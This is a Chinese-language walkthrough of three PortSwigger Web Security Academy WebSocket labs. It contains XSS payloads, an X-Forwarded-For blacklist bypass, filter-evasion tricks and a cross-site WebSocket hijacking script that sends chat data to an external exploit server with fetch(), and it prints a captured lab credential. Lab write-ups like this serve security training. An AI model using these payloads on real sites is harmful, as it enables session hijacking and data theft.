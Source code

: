# WebSockets

[TOC]

## 1. Manipulating WebSocket messages to exploit vulnerabilities

使用了网络套接字的包好像只能拦截，在http history中看不到。

在chat.js里面看到，是先进行htmlEncode的，然后再发送，所以直接改就可以了。

```js
function sendMessage(data) {
    var object = {};
    data.forEach(function (value, key) {
        object[key] = htmlEncode(value);
    });

    webSocket.send(JSON.stringify(object));
}
```

将发送的东西改成这个，`{"message":"<script>alert(1)</script>"}`，然后刷新页面。

但是还是不行，想到script只在网页加载的时候执行，而这个请求对话是网页加载之后。

换成请求图片`{"message":"<img src='xxx' onerror='alert(1)'>"}`

可以了。

## 2. Manipulating the WebSocket handshake to exploit vulnerabilities

输入script之后对话被直接结束，访问`/chat`，返回了`"This address is blacklisted"`。尝试添加`X-Forwarded-For`头。发现有用。

```
X-Forwarded-For: 127.0.0.6
```

经过尝试，发现`<script>`被禁了，但是`<img>`没被禁。

但是输入`{"message":"<img src='xxx' onerror='alert(1)'>"}`却被禁止了。

```
{"message":"<img src='xxx' onerror >"}
```

上面这个可以，猜测是`alert`被禁止了。尝试大小写绕过。

```
{"message":"<img src='xxx' onerror=ALERt(1) >"}
```

不行。

试了一下，是`onerror=`被过滤了。

```
{"message":"<img src='xxx' onerror =1 >"}
```

这样可以，但是加上`alert(1)`就不行。猜测`alert(1)`也被过滤了。alert换成大写是无法执行的。

所以猜测是括号被过滤了。有下面两种绕过的方法。

```
<svg><script>alert&#40;1)</script>
<img src='xxx' onerror="javAScript:window.onerror =alert;throw 1">
```

但是第一种，script被过滤了。

尝试第二种。

```
{"message":"<img src='xxx' onerror ='javAScript:window.onerror =alert;throw 1' >"}
```

过了。

## 3. Cross-site WebSocket hijacking

这个题，直接建立WebSocket连接，`wss://ac611fda1f2718d980654b86009d00de.web-security-academy.net/chat`，然后给服务器发送`READY`，服务器就会把信息发回来。

```html
<script>
var webSocket = new WebSocket('wss://ac611fda1f2718d980654b86009d00de.web-security-academy.net/chat');
webSocket.onopen = start
webSocket.onmessage = handleReply
function start(event) {
  webSocket.send("READY");
}
function handleReply(event) {
  fetch('https://ac881fa71fcb182280bb4b9a017d0010.web-security-academy.net/exploit?'+event.data)
}
</script>
```

然后在log里面找到账号密码。

```
carlos:u75s66svxfv3s67g8jdo
```

登陆就好了。

